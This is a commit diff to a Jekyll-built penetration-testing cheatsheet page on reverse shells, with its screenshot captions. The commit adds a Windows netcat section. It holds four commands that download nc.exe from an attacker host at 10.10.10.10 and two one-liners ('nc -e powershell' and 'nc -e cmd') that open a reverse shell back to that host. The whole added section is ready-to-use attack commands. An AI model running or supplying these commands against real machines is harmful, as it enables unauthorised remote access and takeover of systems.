

Before and after one commit to agrzeslak/cheatsheet, a Jekyll site: the page built from _topics/reverse-shells.md, in a window 1280 px wide and 900 px high, scrolled down 1388 px. Shown: the whole window, without its empty margins (209-1067 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Added netcat for windows reverse shells

````diff
--- a/_topics/reverse-shells.md
+++ b/_topics/reverse-shells.md
@@ -120,6 +120,30 @@ xterm -display [IP]:1
 ---
 
 ## Windows
+**Netcat**
+
+Download nc (e.g. hosted via `python -m SimpleHTTPServer 80` within /usr/share/windows-binaries)
+```powershell
+powershell Invoke-WebRequest -Uri 'http://10.10.10.10/nc.exe' -OutFile 'nc.exe'
+```
+```powershell
+powershell (New-Object Net.WebClient).DownloadString('http://10.10.10.10/nc.exe', 'nc.exe')
+```
+```powershell
+powershell Start-BitsTransfer -Source 'http://10.10.10.10/nc.exe' -Destination 'nc.exe'
+```
+```powershell
+curl -o nc.exe http://10.10.10.10/nc.exe
+```
+
+Execute
+```powershell
+nc -e powershell 10.10.10.10 9999
+```
+```powershell
+nc -e cmd 10.10.10.10 9999
+```
+
 **Perl**
 
 ```powershell
````
